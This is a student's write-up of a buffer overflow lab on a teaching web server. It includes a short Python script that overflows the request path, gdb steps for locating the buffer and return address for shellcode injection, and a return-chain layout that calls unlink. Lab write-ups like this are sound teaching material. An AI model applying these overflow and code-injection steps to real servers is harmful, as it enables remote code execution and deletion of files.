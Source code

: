 # Lab 1

## Part 1: Finding buffer overflows

There is one buffer overflow we can find in the `http.c`, the `reqpath`
can be overflowed.

So I write a brute-force python script:

```py
def build_exploit(shellcode):
    junk_data = b"22"
    req = b"GET " + b"/1" + junk_data * 2060 + b" HTTP/1.0\r\n\r\n"
    return req
```

## Part 2: Code injection

Instead of using brute-force ways, we should calculate carefully how many bytes
we need to inject. It is still easy.

First, we should use `gdb` to hack the web system.

```sh
b process_client
c
x/16x reqpath
info frame
```

+ `reqpath` start address is at `0x7fffffffdca0`
+ `process_client` functions return address is at `0x7fffffffecb8`

Now, it is obvious. We should set the return address to be `0x7fffffffecc0`
which is just behind the return address, and the shell code should be put in
the `0x7fffffffecc0`

## Part 3

Still we need to use `reqpath` overflow. So the idea is that first we need to
make `process_client` returns to `accidentally` function and when `accidentally` return,the next instruction should call `unlink`.

Let's look at what does `accidentally` does:

```c
void accidentally(void)
{
       __asm__("mov 16(%%rbp), %%rdi": : :"rdi");
}
```

Well, we need to change `rbp`'s value. So we could make the following
memory layout:

+ `0x7fffffffecb8`: the `accidentally` start address
+ `0x7fffffffecc0`: the `unlink` start address
+ `0x7fffffffecc8`: the parameter start address `0x7fffffffecd0`.
+ `0x7fffffffecd0`: the parameter

At last, we need to provide the start address of the parameter.

Now we can code.

## Part 4

Well, It is easy to fix. I omit this part.
